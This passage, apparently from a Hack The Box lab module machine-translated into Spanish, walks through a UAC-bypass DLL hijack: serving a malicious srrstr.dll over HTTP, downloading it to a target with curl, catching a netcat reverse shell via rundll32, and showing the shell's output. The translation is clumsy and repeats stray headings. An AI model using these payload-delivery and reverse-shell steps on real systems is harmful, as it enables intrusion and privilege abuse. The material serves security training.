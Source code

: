 Nota: En el ejemplo anterior, especificamos nuestra dirección IP TUN0 VPN.

#### Iniciar el servidor Python HTTP en el host de ataque

Copie la DLL generada en una carpeta y configure un servidor web de Python Mini para alojarlo.

  Control de la cuenta de usuario

```shell-session
xnoxos@htb[/htb]$ sudo python3 -m http.server 8080
```

#### Descargar el objetivo DLL

Descargue el DLL malicioso al sistema de destino y defienda un`Netcat`oyente en nuestra máquina de ataque.

  Control de la cuenta de usuario

```powershell-session
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Inicio del anfitrión del oyente de NC en ataques

  Control de la cuenta de usuario

```shell-session
xnoxos@htb[/htb]$ nc -lvnp 8443
```

#### Conexión de prueba

Si ejecutamos el malicioso`srrstr.dll`Archivo, recibiremos un Shell Back que muestra los derechos normales del usuario (UAC habilitado). Para probar esto, podemos ejecutar la DLL usando`rundll32.exe`Para obtener una conexión de carcasa inversa.

  Control de la cuenta de usuario

```cmd-session
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

Una vez que recuperemos una conexión, veremos los derechos normales del usuario.

  Control de la cuenta de usuario

```shell-session
xnoxos@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```